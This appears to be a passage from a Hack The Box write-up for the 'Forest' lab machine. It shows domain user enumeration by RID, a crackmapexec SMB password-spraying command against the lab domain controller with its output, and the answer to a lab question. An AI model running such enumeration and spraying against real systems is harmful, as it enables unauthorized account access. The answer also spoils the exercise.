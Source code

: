 ```
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
The best suited to investigate further:
```
user:[Administrator] rid:[0x1f4]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Create the users.txt for userlist:

```
Administrator
sebastien
lucinda
andy
mark
santi
```
Crackmapexec command:

```
└──╼ [★]$ crackmapexec  smb 10.129.95.210 -u users.txt -p users.txt
SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [-] htb.local\Administrator:Administrator STATUS_LOGON_FAILURE
SMB         10.129.95.210   445    FOREST           [-] htb.local\sebastien:Administrator STATUS_LOGON_FAILURE

```
Question 1:
For which domain is this machine a Domain Controller?
Answer:
htb.local
